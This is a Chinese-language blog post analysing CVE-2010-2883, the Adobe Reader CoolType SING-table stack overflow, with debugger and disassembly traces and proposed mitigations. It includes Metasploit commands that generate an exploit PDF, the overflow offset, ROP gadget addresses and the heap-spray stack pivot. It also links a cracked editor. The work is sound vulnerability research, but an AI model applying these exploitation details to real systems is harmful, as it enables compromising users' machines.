

#                   CVE-2010-2883分析

## 1.前置准备工作

1. Windows Xp3
2. Vmware
3. [OD](https://down.52pojie.cn/Tools/Debuggers/%E5%90%BE%E7%88%B1%E7%A0%B4%E8%A7%A3%E4%B8%93%E7%94%A8%E7%89%88Ollydbg.rar)  Windbg
4. IDA
5. Adobe Reader 9.3.4 
6. [PdfStreamDumper](http://sandsprite.com/CodeStuff/PDFStreamDumper_Setup.exe) [010Editor](https://down.52pojie.cn/Tools/Editors/010_Editor_v6.0.2_CracKed_For_Windows_x64.zip)
7. <<漏洞战争>> 

## 2.开始干活了

###    1.生成样本

​       使用Kali Liunx的msf框架生成样本;按照下面的指令就可以了

```mathematica
    search cve-2010-2883
    use exploit/windows/fileformat/adobe_cooltype_sing
    set payload windows/exec
    set cmd calc.exe
    exploit
```

###    2.提取样本中的数据

​        按照漏洞战争这本书上的说明,我们使用PdfStreamDumper先提取出样本中畸形ttf文件 保存为decomp_stream_0x478.ttf  

​         然后我们使用010EDitor的ttf模版来分析下我们保存decomp_stream_0x478.ttf文件,ttf表目录项的结构如下所示



​           我们的样本中的数据是


​            样本的数据是在偏移0x011C的位置,这个位置的数据结构如下图所示


​             我们的样本中的数据 0x10处是UniqueName的数据,应该是个字符串,大小最大27个字节,但是Adobe实现的代码中只是把这个当成了字符串处理,没有限制最大是27个字节,所以这里可以栈溢出,红色标记的是Sing Table的数据,紫色的是UniqueName的数据大小


### 3.漏洞分析

####     1.漏洞产生原因分析 

有了对上面ttf结构和sing表的认识之后,我们可以去看看实际溢出的代码,IDA搜索"sing",对照着漏洞战争中的代码特征,可以轻松找到漏洞的溢出点


```asm
                add     eax, 10h
                push    eax ; UniqueName的数据;
                lea     eax, [ebp+108h+var_108];[ebp]
                push    eax ; 
                mov     [ebp+108h+var_108], 0
                call    strcat ; 溢出了;溢出前后EDI寄存器是没有变化的.  溢出 前后 [EDI+3C]的值
                        ; 都是EBP+0x1F8,所以溢出的时候 需要至少溢出0x1F8 这样[[EDI+3C]]的值就可以被控制
                pop     ecx
                pop     ecx
                lea     eax, [ebp+108h+var_108]
                push    eax
                mov     ecx, ebx  
```

可以看出来 EBP后面的数据全部是我们样本里面的数据了;那么Shellcode需要被执行,按照漏洞战争的说法,shellcode首先执行的地址是0x4A80CB38这个地址,我们先断在这个地址,然后kb下


可以看出来 后面的堆栈已经炸了, 也就是说有可能第一个返回的地址也有可能是不对的,第一个返回的地址是0x0801bb43,反汇编这个地址,前面是call  dword ptr [eax];我们断在这个call上;可以发现会被断下来很多次,这样我们根本没法分析了,下图中是其中一次的命中


可以看出来这个[EAX]里面的值不是0x4A80CB38;那到底是哪个地方;去除0x0801bb41的断点,我们尝试从0x4A80CB38断下来的时候看下当时的栈

```assembly
icucnv36!ucnv_toUChars_3_6+162:
4a80cb38 81c594070000     add     ebp,0x794
0:000> dd esp
0012dd24  0808b30a 0012e6d0 00000003 00000000
0012dd34  0012dd44 0012e718 0012e608 00000000
0012dd44  00000000 0012dd68 0801bb43 0012e718
0012dd54  0012ddc8 0012dde4 00000000 00000000
0012dd64  00000001 0012ddf8 08016c5b 01efc87c
0012dd74  0012e718 0012ddc8 0012dde4 00000000
0012dd84  00000000 00000001 db17836e 0012e718
0012dd94  00000000 0012e608 0823a650 0012e4bc

```

0808b30a 这个是返回值,对0808b308这个call 下个断点看下

```assembly
.text:0808B116 pwn2            proc near 
.text:0808B308                 call    dword ptr [eax] ; 这个eax是漏洞指针;shell code的地方

.text:0808B30A                 mov     eax, [ebp+var_4]
```


​    第二次命中后(断点会命中两次)我们可以看到确实是这个地址，也确实和漏洞战争中的地址是一致的，但是回溯的堆栈还是有问题,我们知道这个是栈溢出,所以案发时候的堆栈异常我们可以预知的;现在的分析能力还不能自己重建完整的堆栈,也就是说现在我们没法知道函数调用流程了,没法知道为啥此时的eax指向我们的畸形数据。现在动态分析已经不行了,IDA静态分析看看, 我们现在能看到0801bb43和08016c5b

```asm
.text:08016BDE Pwn             proc near  
.text:08016C56                 call    pwn1           
.text:08016C5B                 add     esp, 1Ch

.text:0801BB21 pwn1            proc near 
.text:0801BB41                 call    dword ptr [eax] 
.text:0801BB43                 test    al, al
```

如上图;ida中可以看出来这两个函数确实是在一个函数流内,那么Pwn所属于的函数是谁呢

```asm
.text:0803DCF9 StackExploit    proc near    
.text:0803DEAE                 push    edi             
.text:0803DEAF                 call    Pwn
.text:0803DEB4                 add     esp, 0Ch        ; 这里调用过来的
```

如上图;是StackExploit,我们可以发现溢出的代码也是在这个函数块内;如下图

```asm
.text:0803DCF9 StackExploit    proc near
.text:0803DDA7                 mov     [ebp+108h+var_108], 0
.text:0803DDAB                 call    strcat          ; 溢出
```


我们可以猜测函数流程是StackExploit->Pwn->Pwn1->pwn2->ROP;Pwn2是0808b308所属的函数块;那么我们正向的走一遍;一步步的看下是不是这个流程;我们会发现,是这个流程没有问题;那么现在我们知道了函数的流程;我们就可以分析下eax是这么被赋值的,需要使用IDA

```asm
.text:0808B116 pwn2            proc near 
.text:0808B308                 call    dword ptr [eax] ; 这个eax是漏洞指针;shell code的地方

.text:0808B30A                 mov     eax, [ebp+var_4]
```

在pwn2函数中,以下是eax的赋值流程; eax是Poi(arg_0+3c);如下图

```assembly
.text:0808B11D                 mov     edi, [ebp+arg_0] ; 这个参数的问题

.text:0808B2E3                 mov     eax, [edi+3Ch]  ; EDI+3c的地方

.text:0808B308                 call    dword ptr [eax] 

```

现在回到pwn1函数,查看arg_0的来源;可以看出来是只是简单的arg_4赋值;如下图

```assembly
.text:0801BB3E                 push    [ebp+arg_4]     ; 这个参数的地址的问题
.text:0801BB41                 call    dword ptr [eax] ; 这里面的调用
```

现在回到pwn函数,查看arg_4的来源;可以看出来只是简单的arg_0赋值;如下图

```asm
.text:08016C0E                 mov     edi, [ebp+664h+arg_0] ; 这个参数赋值的
.text:08016C52                 push    edi             ; 这个参数出现的问题
.text:08016C53                 push    [ebp+664h+var_67C]
.text:08016C56                 call    pwn1            ; 这里调用过来的

```

现在回到StackExploit函数;可以看出来是EDI赋值的；如下图

```asm
.text:0803DEAC                 push    eax
.text:0803DEAD                 push    ebx
.text:0803DEAE                 push    edi             ; 这个参数里面的数据被覆盖[[EDI+3C]]
.text:0803DEAF                 call    Pwn
```

但是StackExploit里面有几处对EDI赋值的地方,我们需要再动态调试下，调试的结果是溢出前( add     eax, 10h这一句)EDI和0803DEAD时候的EDI是一致的;如下图

```asm
                add     eax, 10h
                push    eax ; UniqueName的数据;
                lea     eax, [ebp+108h+var_108];[ebp]
                push    eax ; 
                mov     [ebp+108h+var_108], 0
                call    strcat ; 溢出了;溢出前后EDI寄存器是没有变化的.  溢出 前后 [EDI+3C]的值
                        ; 都是EBP+0x1F8,所以溢出的时候 需要至少溢出0x1F8 这样[[EDI+3C]]的值就可以被控制
                pop     ecx
                pop     ecx
                lea     eax, [ebp+108h+var_108]
                push    eax
                mov     ecx, ebx  
```

说明这个EDI是上层函数就赋值好了的;如下图

```asm
.text:0803DCF9 StackExploit    proc near    
.text:0803DD1D                 mov     eax, [ebp+108h+arg_C]
.text:0803DD23                 mov     edi, [ebp+108h+arg_0]
```

我们可以看出来是这么个调用;如下图;也就是说edi = StackExploitPre.EBP,那么我们要找的[edi+3C] =  [StackExploitPre.EBP+3C]

```asm
.text:080DD0B3 StackExploitPre proc near  
.text:080DD2EB                 lea     eax,[ebp+0D0h+var_D0] ; EAX的地址是一个上层函数的地址lea eax,[EBP]
.text:080DD2EE                 push    eax
.text:080DD2EF                 mov     byte ptr 
.text:080DD2F3                 call    StackExploit
```

这个[EDI+3C]的赋值过程在下图;可以看出来是ESI赋值;[EDI+3C] = ESI

```asm
.text:080DD0B3 StackExploitPre proc near
.text:080DD1B8                 mov     [ebp+0D0h+var_94],esi 
; 这个ESI的值是栈上的地址 mov [EBP+3C], ESI
```

看下ESI被谁赋值了; 如下图我们知道,ESI = StackExploitPre.EBP-0x48

```asm
.text:080DD0B3 StackExploitPre proc near
.text:080DD1A8                 mov     esi，[ebp+0D0h+var_138]
.text:080DD1AB                 neg     esi
.text:080DD1AD                 sbb     esi, esi
.text:080DD1AF                 lea     eax, [ebp+0D0h+var_118]; [ebp-0x48]
.text:080DD1B2                 and     esi, eax; ESI = ebp-0x48
```

现在开始下总结下,以下的公式可能有点绕口

[StackExploitPre.EBP+3C] =  StackExploitPre.EBP-0x48;那么poi[StackExploitPre.EBP+3C] = poi(StackExploitPre.EBP-0x48);那么我们想知道下

poi[StackExploitPre.EBP+3C]的原始值是什么,也是是poi(StackExploitPre.EBP-0x48)是什么


```asm
.text:080DD114                 lea  ecx， [ebp+0D0h+var_138] ; [EBP-68]
.text:080DD117                 mov     [ebp+0D0h+var_F0], 40000000h
.text:080DD11E                 call    sub_8083452     ; 这个给赋值了
```

```asm
.text:08083452                 push    0Ch
.text:08083454                 mov     eax, offset sub_817580A
.text:08083459                 call    __EH_prolog3
.text:0808345E                 mov     esi, ecx
.text:08083460                 mov     [ebp+var_10], esi
.text:08083463                 push    [ebp+arg_0]
.text:08083466                 call    sub_8014E64
.text:0808346B                 mov     ecx, [ebp+arg_0]
.text:0808346E                 xor     eax, eax
.text:08083470                 mov     [ebp+var_4], eax
.text:08083473                 mov     [esi+8], eax
.text:08083476                 mov     [ebp+var_18], eax
.text:08083479                 mov     [ebp+var_14], eax
.text:0808347C                 lea     eax, [ebp+var_18]
.text:0808347F                 push    eax
.text:08083480                 lea     eax, [esi+0Ch]
.text:08083483                 push    eax
.text:08083484                 call    sub_8080FB5
.text:08083489                 mov     eax, [esi+14h]
.text:0808348C                 mov     [esi+1Ch], eax
.text:0808348F                 mov     dword ptr [esi+20h], offset sub_80833EF ; 注意这句 这个值被攻击了
.text:08083496                 mov     [esi+24h], esi
```

[StackExploitPre.EBP-0x68 + 20] = sub_80833EF; 我们找到了原始的这个值,这个值是80833EF，溢出后 这个值成了0x4A80CB38;我们现在来看看这个是怎么被溢出的

注意StackExploitPre.EBP-0x48的内容是我们需要攻击的,我们可以控制的是StackExploit的EBP后面的内容;那么溢出的距离的计算是怎么来的,就是StackExploitPre.EBP-0x48 - StackExploit.EBP = 0012E718 - 0x48 - 0012E4D8 =  0x1F8(这上面的地址是在一次调试中记录下的) 是个恒定的值;关于漏洞产生的原理应该是比较透彻了

```asm
            StackExploit    proc near
                add     eax, 10h
                push    eax ; UniqueName的数据;
                lea     eax, [ebp+108h+var_108];[ebp]
                push    eax ; 
                mov     [ebp+108h+var_108], 0
                call    strcat ; 溢出了;溢出前后EDI寄存器是没有变化的.  溢出 前后 [EDI+3C]的值
                        ; 都是EBP+0x1F8,所以溢出的时候 需要至少溢出0x1F8 这样[[EDI+3C]]的值就可以被控制
                pop     ecx
                pop     ecx
                lea     eax, [ebp+108h+var_108]
                push    eax
                mov     ecx, ebx  
```

#### 2.漏洞的Rop分析

​    上面我们已经分析出来溢出的原因,现在我们看下溢出后的Rop是怎么在弄的;正如前面所说的.Rop的首先被执行的代码如下图

```asm
.text:0808B116 pwn2            proc near 
.text:0808B300                 lea     ecx, [ebp+var_4]
.text:0808B303                 push    ecx
.text:0808B304                 push    ebx
.text:0808B305                 push    3
.text:0808B307                 push    eax
.text:0808B308                 call    dword ptr [eax] ; 这个eax是漏洞指针;shell code的地方 [eax] = icucnv36.4A80CB38
```

```asm
icucnv36!ucnv_toUChars_3_6+162:
4a80cb38 81c594070000     add     ebp,0x794
0:000> p
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a80cb3e esp=0012dd24 ebp=0012e4dc iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!ucnv_toUChars_3_6+168:
4a80cb3e c9               leave
0:000> t
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a80cb3f esp=0012e4e0 ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!ucnv_toUChars_3_6+169:
4a80cb3f c3               ret
0:000> dd 0012e4dc 
0012e4dc  4c191dfd 4a82a714 0c0c0c0c eea0a231
0012e4ec  9e597a21 be85f836 d9b51b89 4f231020
0012e4fc  129c759d b060d86c 7b3f6a02 695b1882
0012e50c  14f8b4ee e7fcbd58 9461c2d9 37cb4fc3
0012e51c  71d98fc4 838ae2d9 92a018b8 d605988c
0012e52c  68e0ee1b 1adddcc6 2764e27f 9986b82c
0012e53c  f19cac8f cd474665 bae940d2 deea884d
0012e54c  44ea6a5c 533148ef e6a74296 c1cab3e2

```

```asm
leave等价于

mov esp,ebp
pop ebp
```

这样就将add ebp; leave 等价于 add esp了; 然后Ret = pop Eip;也就是实现了跳到了4a82a714这个地址;如下图

```asm
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a82a714 esp=0012e4e4 ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!icu_3_6::CharacterIterator::setToStart+8:
4a82a714 5c               pop     esp

```

这一句 pop esp 是个标准的stack pivot  如下图 将esp的值转换成了0x0C0C0C0C

```ASM
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a82a715 esp=0c0c0c0c ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!icu_3_6::CharacterIterator::setToStart+9:
4a82a715 c3               ret

0:000> dd 0c0c0c0c 
0c0c0c0c  4a8063a5 4a8a0000 4a802196 4a801f90
0c0c0c1c  4a84903c 4a80b692 4a801064 4a8522c8
0c0c0c2c  10000000 00000000 00000000 00000002
0c0c0c3c  00000102 00000000 4a8063a5 4a801064
0c0c0c4c  4a842db2 4a802ab1 00000008 4a80a8a6
0c0c0c5c  4a801f90 4a849038 4a80b692 4a801064
0c0c0c6c  ffffffff 00000000 00000040 00000000
0c0c0c7c  00010000 00000000 4a8063a5 4a801064


```

然后是下一句 这句Ret之后代码就跑到了4a8063a5了, 后面就是一堆的Rop的操作了  ;这个就不仔细的分析了;至于0x0C0C0C0C这个地址为什么有内容.以及内容的来源我们也不分析了,因为现在还不懂js的Heap SPARY,等后续的学习理解这个之后我们再补上其中的分析

```asm
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a82a715 esp=0c0c0c0c ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!icu_3_6::CharacterIterator::setToStart+9:
4a82a715 c3               ret

```

#### 3.漏洞小结

   这个漏洞的根源是对sing表的UniqueName处理不当,没有按照标准实现,导致出现了栈溢出,这个漏洞利用溢出的栈覆盖了一个函数指针,并且在后续中通过stack pivot 将esp指向Heap SPARY构造好的内容进行Rop


### 4.漏洞的防御

adobe的修复方案是限制了260字节的读取;这个我们就不管了;如果是第三方安全厂商;那么可以从以下方面入手防御

1.漏洞的第一个利用点是icucnv36.4A80CB38 这个因为icucnv36这个模块没有aslr,可以通过hook ZwMapViewOfSection 强制对这个模块aslr

2.漏洞的第二个点是stack pivot,对关键函数hook 检查调用的ebp esp是否在当前线程的栈空间范围

3.Heap SPARY 使用了 0x0C0C0C0C这个地址, 占坑住这个地址


## 3.参考来源

1. 漏洞战争
2. http://3xp10it.cc/%E4%BA%8C%E8%BF%9B%E5%88%B6/2016/07/28/%E6%BC%8F%E6%B4%9E%E6%88%98%E4%BA%89-cve-2010-2883/
3. http://ahageek.com/blog/cve-2010-2883/

